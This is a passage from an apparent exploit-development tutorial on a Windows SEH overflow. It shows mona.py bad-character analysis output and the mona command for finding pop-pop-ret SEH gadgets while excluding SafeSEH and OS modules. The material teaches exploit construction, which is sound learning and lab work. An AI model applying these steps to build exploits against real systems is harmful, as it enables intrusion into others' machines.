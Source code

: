 		0107F21E      |54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63| Memory
		0107F21E   e0 |e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef f0 f1 f2| File
		0107F21E      |64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73| Memory
		0107F21E   f0 |f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff         | File
		0107F21E      |74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80         | Memory
		0107F21E      `-----------------------------------------------'
		0107F21E  
		0107F21E                  | File      | Memory    | Note       
		0107F21E  -----------------------------------------------------
		0107F21E  0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
		0107F21E  -----------------------------------------------------
		0107F21E  125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted  
		0107F21E  
		0107F21E  Possibly bad chars: 80
		0107F21E  Bytes omitted from input: 00 0a 0d
		```
7. We can now see that starting at the value `0x80` the contents of our file generated with `!mona bytearray` differ from the contents in memory
	```
		0107F21E   70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
		0107F21E      |                                       01 02 03| Memory
	```
	* This means out valid characters are in the range `0x00` - `0x7F`. Excluding the known bad characters that are the null terminator (`0x00`), line feed (`0x0A`), and carriage return (`0x0D`). 

#### SEH Handler
1. The first thing that we need to do, is fix the address we use to overwrite the SEH handler. We can again use `mona.py` to find *seh* gadgets, and filter out those that contain bad characters.

	```
	!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
	```
	* `seh`: Locate seh gadgets `pop pop ret` to enter into our controller region of the stack from a SEH exploit. 
	* `-cm safeseh=off`: Exclude safeseh modules
	* `-cp nonull,ascii`: Only show pointers (Addresses) that do not contain null characters and are ASCII values.
	* `-o`: Ignore OS modules 
	* `-cpb '\x0a\x0d'`: Specify bad characters that disqualify a gadget from being included in the results. 

	<img src="Images/I25.png" width=600>
